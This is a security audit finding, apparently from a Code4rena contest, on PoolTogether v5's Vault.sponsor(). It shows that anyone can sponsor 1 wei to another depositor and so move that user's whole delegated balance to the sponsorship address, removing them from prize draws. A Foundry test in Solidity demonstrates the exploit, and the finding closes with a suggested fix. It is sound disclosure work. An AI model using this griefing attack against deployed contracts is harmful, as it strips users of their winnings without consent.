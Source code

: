# Original link
https://github.com/code-423n4/2023-07-pooltogether-findings/issues/204
# Lines of code

https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L480
https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L982
https://github.com/GenerationSoftware/pt-v5-twab-controller/blob/0145eeac23301ee5338c659422dd6d69234f5d50/src/TwabController.sol#L500


# Vulnerability details

## Impact

The [Vault.sponsor()](https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L480) helps to delegate the user balance to the sponsorship address. As the [code comment](https://github.com/GenerationSoftware/pt-v5-twab-controller/blob/0145eeac23301ee5338c659422dd6d69234f5d50/src/TwabController.sol#L23) says: *@notice Allows users to revoke their chances to win by delegating to the sponsorship address.*.

The problem is that the function can be called using any `_receiver` in the parameter causing that all the `receiver` balance to move to the sponsorship address, even the balance that the `receiver` deposited previously.

Please see the next scenario:

1. Bob deposits 10e18 to the vault. Bob `balance` is 10e18 and `delegateBalance` is 10e18.
2. Malicious actor sponsors `1 wei` to Bob. The [sponsor function is executed](https://github.com/GenerationSoftware/pt-v5-vault/blob/b1deb5d494c25f885c34c83f014c8a855c5e2749/src/Vault.sol#L988) to the Bob receiver, so all [his balance is moved](https://github.com/GenerationSoftware/pt-v5-twab-controller/blob/0145eeac23301ee5338c659422dd6d69234f5d50/src/TwabController.sol#L501) to the `SPONSORSHIP_ADDRESS`. The [TwabController._delegate()](https://github.com/GenerationSoftware/pt-v5-twab-controller/blob/0145eeac23301ee5338c659422dd6d69234f5d50/src/TwabController.sol#L648C12-L648C21) function [moves all](https://github.com/GenerationSoftware/pt-v5-twab-controller/blob/0145eeac23301ee5338c659422dd6d69234f5d50/src/TwabController.sol#L660) the bob balance.
3. Since the delegated balance is moved to the `SPONSORSHIP_ADDRESS`, bob revoke without consent his chances to win in the draw contest.

Malicious actor can sponsor anyone making them  to revoke without consent his chances to win in the draw.

## Proof of Concept

I created a test where `alice the malicious actor` sponsors `1 wei` to `John` so all John previously balance plus the `1 wei` is moving to the `sponsorship address` causing John to revoke without consent his chances to win in the draw. Test steps:

1. Bob deposits `10e18` to the vault.
2. At the same time, John deposits to the vault `10e18`. Assert 10e18 amount in the john `balance` and `delegateBalance`.
3. Alice (Malicious actor) sponsors `1 wei` to John, so now John has `10e18 + 1 wei` in his `balance` but zero in his `delegateBalanceOf`.
4. Alice balance is 0 and John balance is the first deposit from the step 2 + the alice sponsor amount.
5. John balance is the deposited amount from the step 2 + the alice sponsor amount. John `delegateBalance` is zero because the amount was moved to the `sponsorship address`.
6. Bob balance is available by the [getTwabBetween()](https://github.com/GenerationSoftware/pt-v5-twab-controller/blob/0145eeac23301ee5338c659422dd6d69234f5d50/src/TwabController.sol#L258) balance, so he can participate in the draw contest.
7. John balance is `NOT available` by the [getTwabBetween()](https://github.com/GenerationSoftware/pt-v5-twab-controller/blob/0145eeac23301ee5338c659422dd6d69234f5d50/src/TwabController.sol#L258) because all his `delegateBalance` was moved to the sponsorship address. The John deposit from the step 2 was moved to the sponsorship address without consent.
8. Alice balance is `NOT avaialable` because she did not deposit to her account.

```solidity
// File: test/unit/Vault/Deposit.t.sol:VaultDepositTest
// $ forge test --match-test "testSponsorOnBehalfMovingAllTheBalance"

 function testSponsorOnBehalfMovingAllTheBalance() external {
    // Malicious actor can sponsor anyone causing that sponsored user the revoke of his chances to win
    // even if he has previous deposits.
    // 1. Bob deposits 10e18 to the vault.
    // 2. At the same time, John deposits to the vault 10e18. Assert 10e18 amount in the john balance and delegateBalance.
    // 3. Alice (Malicious actor) sponsors 1 wei to John, so now John has 10e18 + 1 wei in his balance but zero in his delegateBalanceOf
    // 4. Alice balance is 0 and John balance is the first deposit from the step 2 + the alice sponsor amount.
    // 5. John balance is the deposited amount from the step 2 + the alice sponsor amount.
    //    John delegateBalance is zero because the amount was moved to the sponsorship address.
    // 6. Bob balance is available by the getTwabBetween() balance, so he can participate in the draw contest
    // 7. John balance is NOT available by the getTwabBetween() because all his delegateBalance was
    //    moved to the sponsorship address. The John deposit from the step 2 was moved to the sponsorship address
    //    without consent.
    // 8. Alice balance is NOT avaialable because she did not deposit to her account.
    //
    address johnTheSponsored = address(1212);

    uint32 period_length = twabController.PERIOD_LENGTH();
    uint32 period_offset = twabController.PERIOD_OFFSET();

    uint32 initialTimestamp = period_offset + period_length;
    uint32 currentTimestamp = initialTimestamp + period_length;

    vm.warp(initialTimestamp);
    //
    // 1. Bob deposits 10e18 to the vault.
    //
    uint256 bobInitialDeposit = 10e18;
    vm.startPrank(bob);
    underlyingAsset.mint(bob, bobInitialDeposit);
    underlyingAsset.approve(address(vault), type(uint256).max);
    vault.deposit(bobInitialDeposit, bob);
    assertEq(twabController.balanceOf(address(vault), bob), bobInitialDeposit);
    assertEq(twabController.delegateBalanceOf(address(vault), bob), bobInitialDeposit);
    vm.stopPrank();
    //
    // 2. At the same time, John deposits to the vault 10e18. Assert 10e18 amount in the john balance and delegateBalance.
    //
    uint256 johnInitialDeposit = 10e18;
    vm.startPrank(johnTheSponsored);
    underlyingAsset.mint(johnTheSponsored, johnInitialDeposit);
    underlyingAsset.approve(address(vault), type(uint256).max);
    vault.deposit(johnInitialDeposit, johnTheSponsored);
    assertEq(twabController.balanceOf(address(vault), johnTheSponsored), johnInitialDeposit);
    assertEq(twabController.delegateBalanceOf(address(vault), johnTheSponsored), johnInitialDeposit);
    vm.stopPrank();
    //
    // 3. Alice (Malicious actor) sponsors 1 wei to John, so now John has 10e18 + 1 wei in his balance but zero in his delegateBalanceOf
    //
    vm.startPrank(alice);
    uint256 _amountAliceSponsor = 1 wei;
    underlyingAsset.mint(alice, _amountAliceSponsor);
    underlyingAsset.approve(address(vault), type(uint256).max);

    vm.expectEmit();
    emit Transfer(address(0), johnTheSponsored, _amountAliceSponsor);

    vm.expectEmit();
    emit Sponsor(alice, johnTheSponsored, _amountAliceSponsor, _amountAliceSponsor);
    vault.sponsor(_amountAliceSponsor, johnTheSponsored);
  
    vm.stopPrank();
    //
    // 4. Alice balance is 0 and John balance is the first deposit from the step 2 + the alice sponsor amount.
    //
    assertEq(vault.balanceOf(alice), 0);
    assertEq(vault.balanceOf(johnTheSponsored), _amountAliceSponsor + johnInitialDeposit);
    assertEq(twabController.balanceOf(address(vault), alice), 0);
    assertEq(twabController.delegateBalanceOf(address(vault), alice), 0);
    //
    // 5. John balance is the deposited amount from the step 2 + the alice sponsor amount.
    //    John delegateBalance is zero because the amount was moved to the sponsorship address.
    //
    assertEq(twabController.balanceOf(address(vault), johnTheSponsored), _amountAliceSponsor + johnInitialDeposit);
    assertEq(twabController.delegateBalanceOf(address(vault), johnTheSponsored), 0);
    assertEq(twabController.delegateOf(address(vault), johnTheSponsored), SPONSORSHIP_ADDRESS);

    // assert some general balances
    assertEq(twabController.balanceOf(address(vault), SPONSORSHIP_ADDRESS), 0);
    assertEq(twabController.delegateBalanceOf(address(vault), SPONSORSHIP_ADDRESS), 0);
    assertEq(underlyingAsset.balanceOf(address(yieldVault)), _amountAliceSponsor + bobInitialDeposit + johnInitialDeposit);
    assertEq(yieldVault.balanceOf(address(vault)), _amountAliceSponsor + bobInitialDeposit + johnInitialDeposit);
    assertEq(yieldVault.totalSupply(), _amountAliceSponsor + bobInitialDeposit + johnInitialDeposit);

    // Jump the time
    vm.warp(currentTimestamp);
    //
    // 6. Bob balance is available by the getTwabBetween() balance, so he can participate in the draw contest
    //
    uint256 bobBalance = twabController.getTwabBetween(
      address(vault),
      bob,
      initialTimestamp,
      initialTimestamp + 11
    );
    assertEq(bobBalance, 10e18);
    assertEq(twabController.getBalanceAt(address(vault), bob, currentTimestamp), 10e18);
    //
    // 7. John balance is NOT available by the getTwabBetween() because all his delegateBalance was
    // moved to the sponsorship address. The John deposit from the step 2 was moved to the sponsorship address
    // without consent
    //
    uint256 johnBalance = twabController.getTwabBetween(
      address(vault),
      johnTheSponsored,
      initialTimestamp,
      initialTimestamp + 11
    );
    assertEq(johnBalance, 0);
    assertEq(twabController.getBalanceAt(address(vault), johnTheSponsored, currentTimestamp), 0);
    //
    // 8. Alice balance is NOT avaialable because she did not deposit to her account.
    //
    uint256 aliceBalance = twabController.getTwabBetween(
      address(vault),
      alice,
      initialTimestamp,
      initialTimestamp + 11
    );
    assertEq(aliceBalance, 0);
    assertEq(twabController.getBalanceAt(address(vault), alice, currentTimestamp), 0);
  }
```

## Tools used

Manual review

## Recommended Mitigation Steps

The amount to the `SPONSORSHIP_ADDRESS` should be only the sponsored amount not all the previsouslty deposits of the sponsored user.


## Assessed type

Other